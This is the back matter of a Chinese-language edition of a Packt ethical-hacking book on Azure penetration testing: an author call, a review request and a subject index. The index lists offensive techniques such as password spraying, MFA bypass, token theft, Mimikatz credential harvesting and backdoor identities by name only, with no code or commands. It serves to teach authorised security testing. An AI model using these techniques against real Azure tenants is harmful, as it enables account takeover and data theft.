如果你有兴趣成为 Packt 的作者，请访问 authors.packtpub.com 并立即申请。我们已与成千上万像你一样的开发人员和技术专业人士合作，帮助他们与全球技术社区分享见解。你可以进行一般申请，申请我们正在招募作者的具体热门主题，或提交你自己的创意。

#### 分享你的想法

现在你已经完成了*面向道德黑客的 Azure 渗透测试*，我们很想听听你的想法！如果你从亚马逊购买了这本书，请点击此处直接进入这本书的亚马逊评论页面，分享你的反馈，或者在你购买它的网站上留下评论。

你的评论对我们和技术社区都很重要，并将帮助我们确保我们提供优质内容。

#### 索引

#### 符号

应用程序编程接口（API）5

##### A

访问
提升 267-271
Active Directory（AD）39, 175
Active Directory 提升路径
  标识，自动化 276, 277
管理员系统
  PS/AZ 凭据，导出 286, 287
亚马逊网络服务（AWS）82
应用程序编程
  接口（APIs）70
应用注册 15
应用服务
  从 240, 241 提取凭据
  提升 242, 243
  横向移动 242, 243
  持久化 242, 243
应用服务 Kudu 接口 244
自动化账户凭据提取
  概述 246

自动化账户
  从 248-250 提取证书
  从 244-246 提取凭据
  提取存储的密码
    来自 248-250
Azure
  云平台 5
  云和区域 5
  自定义域服务，
    确定 87, 88
  基础设施 4
  部署渗透测试虚拟机 54
  资源管理层次结构 5-8
Azure Active Directory（Azure AD）
  关于 234, 304
  使用 MSOLSpray 获取凭据 104-112
  提升到 Azure RBAC 角色 256
  利用组成员身份 257-260
  根管理组访问权限，
    提升 262-264
  服务主体机密，
    利用 261, 262
  重置用户密码 260
Azure AD Connect 7

Azure AD 凭据
  猜测 100
Azure AD 凭据，密码猜测攻击
  决定猜测策略 101-103
  获取密码列表 101
  获取用户名字列表 100
Azure 管理员账户
  创建 42-53
Azure AD PowerShell 模块
  在渗透测试虚拟机上安装 66-68
Azure AD 角色
  从 Azure 订阅所有者提升 271
Azure AD 安全性，条件访问策略
  关于 112
  MFASweep 112, 113
  绕过多重身份验证（MFA）114
Azure AD 租户
  创建后门身份 309
  修改身份 313
  持久化 308
  向身份授予特权访问权限 316
  绕过安全策略以访问 319
Azure 应用服务应用 145, 146
Azure 应用服务配置
  利用 145
Azure 自动化账户，用于访问 Key Vault
  参考链接 245
Azure CLI
  关于 25-27
  在 WSL 中安装 69
Azure 云
  访问 21
Azure 容器注册表（ACR）
  关于 155
  搜寻凭据 156-162
  审查 156
Azure 上下文 287
Azure 函数应用 146-150
Azure 实例元数据服务
  参考链接 141
Azure Key Vault
  关于 233
  提取证书 233
  提取密钥 233
  提取机密 233
Azure Kubernetes 服务（AKS）9
Azure 渗透测试
  指南 74, 75
  范围 75
  工具 70, 71
Azure 平台 DNS 后缀 81-83
Azure 平台功能
  利用参与者权限 176
  利用密码重置功能 177
  利用密码重置功能创建本地管理员用户 178-180
  利用 Lava 攻击特权 VM 资源 186-194
  利用运行命令功能 180, 182
  执行 VM 扩展 194, 195
Azure 门户
  关于 22
  导航 23
  服务搜索 23
  订阅列表 24
  用户菜单 24


##### A

- Azure PowerShell 模块
  - 在渗透测试虚拟机上安装，66-68
- Azure 公共 IP 地址
  - 使用 PowerShell 解析，78-81
  - 范围，76-78
- Azure RBAC 角色
  - 从 Azure AD 提升权限，256
- Azure RBAC 结构
  - 概述，11
  - 默认 RBAC 角色，19, 20
  - 角色分配，21
  - 角色定义，17-19
  - 安全主体，12
- Azure Resource Manager (ARM)
  - 概述，32, 34, 54
  - 评估部署，136-138
- Azure 资源
  - 枚举，125-127
- Azure REST API，33
- Azure 基于角色的访问控制 (Azure RBAC)，234
- Azure 服务
  - 概述，9, 11
- Azure 存储密钥
  - 使用 MicroBurst 转储，213-219
- Azure 订阅
  - 从已认证的 Azure 管理员系统中重用缓存的令牌，288-300
  - 从已认证的 Azure 管理员系统中窃取缓存的令牌，288-300
  - 从系统中窃取凭据，286
  - 保持对 PaaS 服务的持久性，306
  - 使用自动化帐户保持持久性，304-306
  - 使用虚拟机 (VM) 保持持久性，300
  - 持久化，285
- Azure 订阅所有者
  - 提升至 Azure AD 角色，271
  - 利用特权服务主体，271
  - 利用服务主体 API 权限，272
- Azure 租户
  - 创建，39-42
- Azure 虚拟机 (Azure VM)
  - 概述，9
  - 清理 Contributor (IaaS) 利用场景，204, 205
  - 从 VM 扩展设置中收集凭据，198, 199
  - 提取数据，196
  - 利用磁盘导出功能，200-202
  - 使用 Mimikatz 收集本地凭据，196, 197, 198
  - 利用快照导出功能，200-202
  - 使用 PowerZure 窃取 VM 磁盘，202-204

##### B

- 后门身份，Azure AD 租户
  - 将来宾用户身份邀请到租户，312, 313
  - 使用密码创建服务主体，310, 311
  - 创建用户身份，309, 310
- 暴力破解攻击，101

##### C

- 夺旗赛 (CTF)，39
- 证书
  - 在 Key Vault 资源中窃取，236, 238
  - 从自动化帐户中提取，248-250
  - 从 Azure Key Vault 中窃取，233
- 明文数据存储
  - 审查，136
- Cloud IP Checker，86
- Cloud Shell
  - 概述，24
  - 参考链接，24, 25
- Cloud Shell 帐户
  - 用于提升权限，222-233
- Cloud Shell 存储文件
  - 攻击，220, 221
- 代码相关漏洞
  - 概述，98
  - 命令注入，99
  - 目录遍历，99
  - 从 Web 服务器访问本地文件，99
  - 服务端请求伪造 (SSRF)，99
  - SQL 注入 (SQLI)，99
- 命令与控制 (C2)，300
- 命令行界面 (CLI)，66
- 条件访问策略，112
- 配置相关漏洞
  - 概述，90
  - Blob 存储帐户权限概述，91-93
  - IaaS 配置相关漏洞，90
  - PaaS 配置相关漏洞，90
- Contributor IaaS 权限提升目标
  - 概述，174, 175
  - 域凭据搜寻，175
  - 网络横向移动机会，176
  - 本地凭据搜寻，175
  - 租户凭据搜寻，176
- Contributor (IaaS) 利用场景
  - 准备，171-174
- Contributor (PaaS) 利用场景
  - 清理，251-253
  - 准备，208-211
- Contributor RBAC 角色
  - 审查，170, 171
- Contributor 权限
  - 用于利用 Azure 平台功能，176
- 凭据
  - 从 App Service 提取，240, 241
  - 从自动化帐户提取，244-246
- 自定义域，86
- 自定义域服务
  - 在 Azure 中确定托管，87, 88

##### D

- 数据
  - 从 Azure VM 提取，196
- 数据平面，234
- 所需状态配置 (DSC)，302
- 磁盘导出，200
- 域权限提升路径
  - 识别，275, 276
- 域名系统 (DNS)，11, 58
- 动态组成员资格
  - 利用，163-165

##### E

- 弹性计算云 (EC2)，11
- 端点检测与响应 (EDR)，196
- 权限提升
  - 在 App Service 中，242, 243
- 利用场景
  - 清理，166-168
- Express Route 连接，274
- Azure 公共 IP 地址，使用 PowerShell 解析，78-81
- Azure 公共 IP 地址，范围，76-78
- Cloud IP Checker，86
- 自定义域，86
- 自定义域服务
  - 在 Azure 中托管，87, 88
- IP 所有权，86
- 使用 MicroBurst 枚举 PaaS 服务，83-86
- 风险测试，76
- 子域接管，88, 89
- 互联网协议 (IP)，62
- IP 所有权，86

##### F

- 完全限定域名 (FQDN)，81

##### G

- 正式发布 (GA) 版本，258
- 全局管理员
  - 准备，264-267
- 组，16

##### I

- IaaS 配置相关漏洞，90
- Azure AD 租户身份
  - 启用禁用的用户身份，314, 315
  - 重置密码，314, 315
  - 向服务主体添加机密，315
- 基于身份的访问，308
- 身份提供者 (IdP)，309
- 基础设施即服务 (IaaS)，77
- 实例元数据服务 (IMDS)，141
- 面向互联网的服务枚举识别，概述，76
- Azure 平台 DNS 后缀，81-83

##### J

- JQ 工具，78

##### K

- 基于密钥的访问，308
- 密钥
  - 在 Key Vault 资源中窃取，236, 238
  - 从 Azure Key Vault 窃取，233
- Key Vault
  - 使用替代主体访问的选项，235

##### L

- 横向移动
  - 在 App Service 中，242, 243
  - 提示，278, 279
- Lava，186
- Linux 管理工具，70

##### M

- 托管身份，15
- 管理平面，234
- MFASweep，112, 113
- MicroBurst
  - 概述，66
  - 参考链接，83
  - 用于转储 Azure 存储密钥，213-219
  - 用于识别配置错误的 Blob 容器，94-98
  - 用于枚举 PaaS 服务，83-86
- 配置错误的 Blob 容器
  - 使用 MicroBurst 识别，94-98
- 配置错误的服务器主体
  - 用于提升权限，150-155
- Mnemonic
  - 参考链接，165
- MSOLSpray
  - 概述，103
  - 用于猜测 Azure Active Directory 凭据，104-112
- 多因素认证 (MFA)，13, 54, 103, 176
  - 绕过，114

##### N

- 国家网络安全中心 (NCSC)，101
- 网络持久性
  - 维护到平台服务，306-308
- Nmap，78

##### O

- 本地网络
  - 识别连接，274
  - Express Route 连接，274
  - 站点到站点连接，274
- 本地系统
  - 攻击以在 Azure 中提升权限，273
- Owner 利用场景
  - 使用清理脚本，280, 281
  - 准备，264-267

##### P

- PaaS 配置相关漏洞
  - 概述，90
  - 存储帐户，91
- PaaS 服务
  - 使用 MicroBurst 枚举，83-86
- 哈希传递 (PtH) 攻击，279
- 密码喷洒攻击，102
- 补丁相关漏洞，98
- 渗透测试虚拟机
  - 在其上安装 Azure AD PowerShell 模块，66-68
  - 在其上安装 Azure PowerShell 模块，66-68
  - 部署，54-62
  - 在 Azure 中部署，54
  - 在其上安装 WSL，62-66
- 持久性
  - 在 App Service 中，242, 243
- 持久性概念
  - 概述，283
  - 规划访问，284
  - 使用长期通道，284
  - 多个通道，284

##### S

- 安全主体，Azure RBAC 结构
  - 概述，12
  - 组，16, 17
  - 托管身份，15, 16
  - 服务主体，14, 15
  - 用户帐户，12-14
- 服务端请求伪造 (SSRF)，99
- 服务主体，14
- 共享访问签名 (SAS)，200, 308
- 单密码喷洒攻击，101
- 单一登录 (SSO)，286
- 站点到站点连接，274
- 软件即服务 (SaaS)，9
- SQL 注入 (SQLI)，99
- 存储帐户
  - 概述，211
  - 攻击，211-213
- 存储的密码
  - 从自动化帐户提取，248-250
- 结构化查询语言 (SQL)，8
- 子域接管，88, 89

##### T

- 定向用户攻击，101
- 测试自动化帐户
  - 创建“运行方式”帐户，247, 248

##### U

- 统一资源定位符 (URL)，52
- 用户持久性
  - 维护到平台服务，308
- 用户主体名称 (UPN)，13, 53

##### V

- 虚拟机规模集 (VMSS)，90, 170
- 虚拟机 (VM)，8, 90, 170, 300
- Visual Studio Code (VS Code)，54
- 面向公共服务中的漏洞
  - 代码相关漏洞，98
  - 配置相关漏洞，90
  - 识别，90
  - 使用 MicroBurst 识别配置错误的 Blob 容器，94-98
  - 补丁相关漏洞，98

##### W

- Web 应用
  - 利用其进行横向移动和权限提升，239, 240
- Webhook 方法，305
- Windows 管理工具，70
- 适用于 Linux 的 Windows 子系统 (WSL)
  - 在其中安装 Azure CLI，69
  - 在渗透测试虚拟机上安装，62-66
- Windows 虚拟桌面 (WVD)，90


<!-- no content -->
